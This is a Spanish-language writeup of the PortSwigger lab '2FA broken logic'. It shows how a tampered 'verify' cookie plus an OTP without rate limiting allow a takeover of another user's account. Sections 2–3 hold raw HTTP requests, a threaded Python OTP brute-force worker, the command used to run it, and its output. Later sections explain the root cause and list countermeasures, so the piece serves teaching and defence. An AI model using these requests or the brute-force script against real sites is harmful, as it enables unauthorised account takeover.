

# Writeup: 2FA broken logic (PortSwigger)

- **Lab**: 2FA broken logic
- **URL**: https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic
- **Categoría**: Authentication / MFA bypass por confusión de identidad en paso 2 + brute-force de OTP sin rate-limit
- **Dificultad**: Practitioner
- **Credenciales propias**: `wiener:peter` (con email accesible)
- **Credenciales objetivo**: `carlos` (sin acceso al email; password desconocido)

---

## 1. Objetivo

Acceder al panel `/my-account?id=carlos`. A diferencia del lab "2FA simple bypass", acá el server **sí enforce el segundo paso**: no podés saltarte `/login2` navegando directo. La vulnerabilidad está en cómo el server identifica *a quién* le toca verificar el OTP.

### El insight central

El paso 2 (`/login2`) usa una cookie `verify` (seteada en el paso 1) para decidir **qué usuario** se está verificando. El server confía en esa cookie como autoridad de identidad en lugar de derivarla de la sesión del paso 1. Como la cookie es controlable por el cliente, podés:

1. Hacer login con tu cuenta (`wiener:peter`) para que el server te dé una sesión válida.
2. Cambiar la cookie `verify=wiener` a `verify=carlos` antes de submitir el OTP.
3. Brute-forcear el código de 4 dígitos contra carlos (sin rate-limit, 10⁴ candidatos).

Dos defectos compuestos:

- **Confusión de identidad**: la sesión del paso 1 (autenticada como wiener) y el target del paso 2 (definido por cookie `verify`) están **desacoplados**. El server permite que la sesión de wiener valide el OTP de carlos.
- **OTP sin rate-limit**: 4 dígitos = 10.000 candidatos. Sin lockout ni captcha, un script Python con 30 workers los prueba en menos de un minuto.

Cualquiera de los dos solos es grave. Juntos, takeover trivial.

---

## 2. Reconocimiento

### 2.1 Mapear el flujo legítimo con tu cuenta

Login con `wiener:peter` y mirar cada request en Burp. Después de `POST /login` con credenciales válidas:

```http
HTTP/2 302 Found
Location: /login2
Set-Cookie: verify=wiener; HttpOnly
Set-Cookie: session=NMkr6rIvj2IbQdZy38EorgBMqFFpxvRk; Secure; HttpOnly; SameSite=None
```

Dos cookies. La segunda es opaque (token de sesión normal). La primera, `verify=wiener`, es **literalmente el username** del que se está verificando, en plaintext, controlable por el cliente. El smell es inmediato: si el server ya tiene la sesión opaque para identificarte, ¿por qué necesitaría poner el username en una cookie aparte? La hipótesis natural: `verify` se usa en el paso 2 como autoridad de identidad para decidir contra qué OTP comparar.

Nota sobre `HttpOnly`: el flag impide que JavaScript del cliente lea la cookie, pero **no** impide que un atacante con Burp/curl la modifique. `HttpOnly` mitiga XSS robando cookies, no manipulación directa por el cliente.

### 2.2 Completar el flujo legítimo

`GET /login2` → form para el código. El server simultáneamente envía el código al email de wiener. Tras leerlo (`0005` en mi ejecución) y submitir:

```http
POST /login2 HTTP/2
Cookie: verify=wiener; session=NMkr6rIvj2IbQdZy38EorgBMqFFpxvRk
Content-Type: application/x-www-form-urlencoded

mfa-code=0005
```

Response correcta:
```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=q9mA50tyNaV5xJVo8ObBu2aZVowzoQSM; Secure; HttpOnly; SameSite=None
Content-Length: 0
```

Tres datos clave para el ataque posterior:

1. **OTP correcto = 302 + Content-Length 0**. Ese es el discriminador del brute-force.
2. **El server rota la sesión tras el paso 2 exitoso** (de `NMkr...` a `q9mA...`). Buena práctica anti session-fixation, pero también significa que la cookie post-2FA es nueva.
3. El form pide código de 4 dígitos: `0000` a `9999`, espacio de búsqueda 10⁴.

### 2.3 Confirmar la hipótesis sin brute-force

Antes de tirar Intruder/Python, validamos que `verify` realmente decide la identidad. La forma barata: una sola request con `verify=carlos` y un `mfa-code` random.

```http
POST /login2 HTTP/2
Cookie: verify=carlos; session=NMkr6rIvj2IbQdZy38EorgBMqFFpxvRk
Content-Type: application/x-www-form-urlencoded

mfa-code=1234
```

Response:
```http
HTTP/2 200 OK
Content-Length: 3184
Set-Cookie: session=6HLjamyCehfxrMnlSA63o1bUJyEPZUrx; Secure; HttpOnly; SameSite=None

<!DOCTYPE html>
... <p class=is-warning>Incorrect security code</p> ...
```

Tres observaciones:

- **El error es genérico de código** (`Incorrect security code`), no se queja ni de la sesión ni del usuario. El server aceptó `verify=carlos` y validó `1234` contra el OTP de carlos. Hipótesis confirmada.
- **El server rota la sesión incluso en intentos fallidos** (de `NMkr...` a `6HLj...`). Eso es raro: típicamente la rotación se hace solo en éxito (anti session-fixation). Hacerla siempre sugiere implementación apresurada y refuerza que el modelo de auth está mal pensado. Para el brute-force no es problema: cada request del script reusa la cookie original del template, ignorando los `Set-Cookie` que el server devuelve.
- **El status 200 con un body HTML largo (3184 bytes)** vs el 302 con body 0 del éxito da un discriminador clarísimo para el ataque.

---

## 3. Resolución

### 3.1 Trigger del OTP de carlos

Antes de brute-forcear hay que asegurarse de que existe un OTP válido para carlos en el server. Un `GET /login2` con `verify=carlos` desde nuestra sesión emite/refresca el código (lo manda al email de carlos, que no leemos):

```http
GET /login2 HTTP/2
Cookie: verify=carlos; session=NMkr6rIvj2IbQdZy38EorgBMqFFpxvRk

→ HTTP/2 200 OK (form)
```

Status 200 con el form: el server aceptó la request y, asumimos, generó el OTP. El email de carlos no nos importa; lo único relevante es que ahora hay un código vivo en el server para carlos.

### 3.2 Brute-force con Python

Burp Community throttlea Intruder a ~1 req/s, lo que daría hasta 3 horas. Python con `concurrent.futures` y 30 workers cubre los 10.000 candidatos en menos de un minuto. Script en [`bruteforce.py`](./bruteforce.py).

Núcleo del worker:

```python
def try_code(host, session_cookie, code):
    s = make_session()
    r = s.post(f"https://{host}/login2",
               cookies={"session": session_cookie, "verify": "carlos"},
               data={"mfa-code": f"{code:04d}"},
               allow_redirects=False, timeout=15)
    if r.status_code == 302:
        # OTP correcto: capturar la session post-2FA
        FOUND.set()
        RESULT.update({"code": f"{code:04d}",
                       "post_session": r.cookies.get("session")})
    return code, r.status_code, len(r.content)
```

El discriminador es `r.status_code == 302`. Cualquier otra cosa (200 con form de error) se descarta. El flag `FOUND` corta los workers en cuanto un código gana.

Ejecución:

```bash
python3 bruteforce.py \
    --host 0ad5001f0391a8738096763300c600da.web-security-academy.net \
    --session NMkr6rIvj2IbQdZy38EorgBMqFFpxvRk \
    --workers 30
```

Salida real:

```
[*] Target: 0ad5001f0391a8738096763300c600da.web-security-academy.net
[*] Session: NMkr6rIvj2Ib...
[*] Probando codigos 0000..9999 con 30 workers
[+] GET /login2 con verify=carlos -> status 200

[+] OTP CORRECTO: 0239 (status 302, length 0)

=== Lab solved ===
  mfa-code: 0239
  Location: /my-account?id=carlos
  Cookie session post-2FA: kwsmCkE05CaLOdt0YYGxm9Zo602GWx7n
```

El código ganador fue `0239` (apareció rápido, dentro de los primeros 250 intentos en mi ejecución; la posición es uniforme y depende del lab).

### 3.3 Acceso al panel de carlos

Con la cookie `session=kwsmCkE05CaLOdt0YYGxm9Zo602GWx7n` (la post-2FA emitida por el server cuando el OTP fue correcto), navegar al panel:

```bash
curl -i 'https://0ad5001f0391a8738096763300c600da.web-security-academy.net/my-account?id=carlos' \
    -H 'Cookie: session=kwsmCkE05CaLOdt0YYGxm9Zo602GWx7n'
```

Status 200, ~3442 bytes (el panel de carlos). Banner del lab cambia de `is-notsolved` a `is-solved`. Lab terminado.

### 3.4 Notas operativas durante el ataque

- **Refresh del OTP**: el script tiene `--refresh-every` para regenerar el código de carlos cada N intentos por si el server lo expira. En esta corrida no fue necesario (el código apareció antes de los 2500 intentos default), pero si el OTP expira a mitad del brute-force el flag te salva.
- **Falsa señal por wiener**: si tu cookie `verify` se vuelve a `wiener` por algún flujo accidental, el script estaría brute-forceando contra wiener (que tampoco tiene ese código, ya consumió el suyo), generando 200 en todos los intentos. Verificar siempre la cookie `verify=carlos` en la request del template.
- **Session rotation no rompe el ataque**: aunque el server rota la cookie en cada request fallida, el script reusa la `session` original del template; el server no liga el OTP a la sesión específica (esa es justamente la vuln), así que la rotación es decorativa.

---

## 4. Por qué funciona

### 4.1 Identidad de la sesión vs identidad del 2FA

En el paso 2 hay dos preguntas distintas que el server tiene que responder:

1. **¿Quién mandó esta request?** Respuesta: derivada de la cookie `session` (autenticación de transporte).
2. **¿De quién es el OTP que estoy validando?** Respuesta: tiene que coincidir con quien completó el paso 1 *en esa misma sesión*.

La implementación correcta liga ambas: el OTP se valida sólo si la sesión está en stage `PENDING_OTP` y se emitió para el `user_id` guardado en la sesión durante el paso 1. La cookie `verify` no debería existir, o debería ser un opaque token ligado a esa sesión específica.

La implementación rota separa ambas: la sesión sólo dice "alguien autenticado", la cookie `verify` dice "y ahora estamos verificando a este otro user". El server cruza datos sin chequear que coincidan.

```python
# Implementación rota (este lab)
@app.route('/login2', methods=['POST'])
def login2_broken():
    target_user = request.cookies.get('verify')  # cliente lo controla
    code = request.form['mfa-code']
    if verify_otp(target_user, code):
        login_session_as(target_user)  # promueve la sesión al user de la cookie
        return redirect(f'/my-account?id={target_user}')
    return render_error()

# Implementación correcta
@app.route('/login2', methods=['POST'])
def login2_safe():
    if session.get('stage') != 'PENDING_OTP':
        return generic_error()
    target_user = session['user_id']  # del paso 1, no del cliente
    code = request.form['mfa-code']
    if not verify_otp(target_user, code, session_id=session.id):
        record_failed_attempt(session.id)  # base del rate-limit
        return render_error()
    session.regenerate_id()
    session['stage'] = 'AUTHENTICATED'
    return redirect('/my-account')
```

Tres diferencias clave en la versión correcta:

1. El target user viene de la sesión, no de cookies/params del cliente.
2. El OTP se liga a la sesión específica (`session_id=...`): un código emitido para sesión A no valida en sesión B.
3. Hay rate-limit explícito (`record_failed_attempt`) para acotar el espacio de búsqueda.

### 4.2 ¿Por qué la cookie `verify` siquiera existe?

Probablemente alguien la introdujo para resolver un problema legítimo: ¿cómo recordar entre el paso 1 y el paso 2 quién está logueando, sin meter el username en la URL?

Soluciones razonables:

- **En memoria de sesión server-side**: `session['user_id'] = user.id` tras paso 1. El cliente nunca ve el dato. Imposible de manipular.
- **En un token firmado/cifrado**: si necesitás stateless, un JWT o cookie firmada con HMAC que el server puede validar. El cliente puede leer pero no modificar sin invalidar la firma.

La solución rota: poner el username plaintext en una cookie no firmada. Le cedió al cliente la autoridad sobre la identidad del flujo de auth. Es básicamente "trust the user agent" para una decisión de seguridad.

Este patrón aparece en otras vulnerabilidades:

- **IDOR clásico**: `?account_id=42` en URL, server confía sin chequear ownership.
- **Privilege escalation por param tampering**: hidden input `is_admin=false` que el cliente cambia a `true`.
- **Mass assignment**: campos del modelo expuestos al request body sin allowlist.

La regla universal: **datos enviados por el cliente nunca son autoridad sobre identidad o permisos**. Si el server necesita saber quién es el usuario, derivarlo de la sesión autenticada, no de un campo controlado por él.

### 4.3 Composición de defectos

Acá hay dos bugs separados, y la severidad real surge de su combinación:

| Bug | Solo, qué permite | Mitigación independiente |
|---|---|---|
| `verify` cookie tamper | Si tenés un OTP válido de carlos (phishing, leak), entrás como carlos sin saber su password. | Derivar identidad de sesión, no del cliente. |
| OTP sin rate-limit | Si tenés que adivinar el OTP de carlos pero el server liga código a sesión correcta, no podés (no es tu sesión). | Rate-limit + lockout + captcha. |

Combinados: **podés generar el OTP en *tu* sesión apuntando a carlos, y luego brute-forcearlo**. La fix de cualquiera de los dos rompe el ataque.

Esto es típico de bugs de auth: rara vez una sola vulnerabilidad es game over. El takeover viene de encadenar dos o tres defectos chicos. Defensa en profundidad no es "muchas capas iguales", es "muchas capas distintas" — una falla no debería alinearse con todas las demás.

### 4.4 Diferencias con "2FA simple bypass"

| Aspecto | Simple bypass | Broken logic (este) |
|---|---|---|
| Enforcement de paso 2 | Inexistente server-side | Existe, pero la lógica de a quién verificar es rota |
| Necesita OTP válido | No (se saltea el paso entero) | Sí (hay que adivinarlo) |
| Necesita brute-force | No | Sí (4 dígitos, ~10⁴ intentos) |
| Vector | Navegación directa post-paso-1 | Cookie tampering + brute-force |
| Severidad | Crítica (un request) | Crítica (~1 minuto de Python) |
| Fix | State machine de sesión | Identidad ligada a sesión + rate-limit |

Ambos llegan al mismo resultado (login como carlos sin sus credenciales), pero el simple bypass es un fallo de **estado mal modelado** y este es de **identidad mal atribuida**. El primero confunde dos estados; el segundo confunde dos identidades.

### 4.5 Por qué Burp Community no escala y Python sí

Burp Intruder en Community throttlea a ~1 req/s para empujarte a comprar Pro. Para un espacio de 10⁴, eso son ~3 horas en el peor caso, ~1.5h promedio. Python con un `ThreadPoolExecutor` de 20-50 workers no tiene throttle, sólo el límite del server (que en este lab acepta el paralelismo sin quejarse).

Esto es relevante en pentest real: si el target tiene una vuln de brute-force y disponés sólo de Burp Community, la "ventana de explotación" puede ser horas vs minutos. Un atacante real va a usar python/curl/turbo-intruder. Defenders tienen que dimensionar sus rate-limits y detección asumiendo paralelismo agresivo, no la velocidad de Intruder Community.

---

## 5. Resumen de la cadena



Tres ideas para llevarse:

1. **La identidad del que verifica el 2FA tiene que venir de la sesión, no del cliente**. Cualquier campo controlable por el cliente que decida "qué usuario es este" es una falla de diseño. La cookie `verify=wiener` plaintext es el antipatrón canónico.
2. **El OTP es un secreto chico** (10⁴-10⁶ posibilidades). Sin rate-limit, expiración corta y binding a sesión, es trivial brute-forceable. La defensa por "código complejo" no existe a este tamaño.
3. **Cadenas de bugs chicos > un bug grande**. La fix de cualquiera de los dos defectos rompe la cadena, pero sólo si el threat model considera cómo se combinan. Defender capa por capa sin pensar en interacciones es defensa parcial.

---

## 6. Contramedidas

En orden de robustez:

1. **Identidad ligada a sesión, no a cookie controlable**: tras paso 1, guardar `user_id` y `stage=PENDING_OTP` en sesión server-side. El paso 2 deriva el target del session store, nunca de cookies/params del cliente.
2. **OTP ligado a sesión específica**: el código se emite para `(user_id, session_id)` y sólo valida con esa misma sesión. Un OTP generado en sesión A no valida en sesión B aunque el username coincida.
3. **Rate-limit del OTP**: máximo 5 intentos fallidos por sesión, lockout temporal después. Acota el espacio de búsqueda real a ~5 candidatos vs 10⁴.
4. **Expiración corta del OTP**: 60-300s. Un OTP que expira a mitad del brute-force fuerza al atacante a reiniciar y lo hace observable (genera muchos triggers seguidos).
5. **Single-use**: tras consumirse correctamente, invalidar. Tras N intentos fallidos, también.
6. **Rotación de session ID tras paso 2 exitoso**: anti session-fixation. Si el atacante logró setearle al usuario una cookie en paso 1, esa cookie deja de ser válida tras paso 2. (No rotar en intentos fallidos; en este lab se rota siempre, lo que no aporta seguridad y consume entropía sin razón.)
7. **Logging y alertas**: múltiples intentos fallidos de OTP, ratio anómalo de stages incompletos, varios `GET /login2` con `verify` distintos desde la misma sesión. Todo eso es señal de ataque y debería trigger alertas o lockout automático.
8. **Captcha o proof-of-work tras 2-3 intentos fallidos**: encarece el brute-force aunque el rate-limit sea laxo.
9. **WebAuthn/passkeys** para flujos críticos: inmune a brute-force, phishing y replay. Reemplaza el OTP por código en muchos casos.

---

## 7. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: 2FA broken logic*. https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic
- PortSwigger Web Security Academy. (s.f.). *Multi-factor authentication*. https://portswigger.net/web-security/authentication/multi-factor
- OWASP Foundation. (s.f.). *Authentication Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Multifactor Authentication Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Multifactor_Authentication_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Session Management Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html
- MITRE Corporation. (2024). *ATT&CK Technique T1556.006: Modify Authentication Process - Multi-Factor Authentication*. https://attack.mitre.org/techniques/T1556/006/
- MITRE Corporation. (2024). *CWE-287: Improper Authentication*. https://cwe.mitre.org/data/definitions/287.html
- MITRE Corporation. (2024). *CWE-307: Improper Restriction of Excessive Authentication Attempts*. https://cwe.mitre.org/data/definitions/307.html
- MITRE Corporation. (2024). *CWE-639: Authorization Bypass Through User-Controlled Key*. https://cwe.mitre.org/data/definitions/639.html
- NIST. (2017). *SP 800-63B: Digital Identity Guidelines - Authentication and Lifecycle Management*. https://pages.nist.gov/800-63-3/sp800-63b.html
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 6 (Attacking Authentication), §6.5 (Multi-Stage Login Mechanisms).
- Writeup hermano: [`learning/portswigger/2fa-simple-bypass/writeup.md`](../2fa-simple-bypass/writeup.md) — la variante "simple bypass" (paso 2 sin enforcement server-side).
- Inventario interno: [`inventario/04-explotacion/web/explotacion-mfa-bypass.md`](../../../inventario/04-explotacion/web/explotacion-mfa-bypass.md)
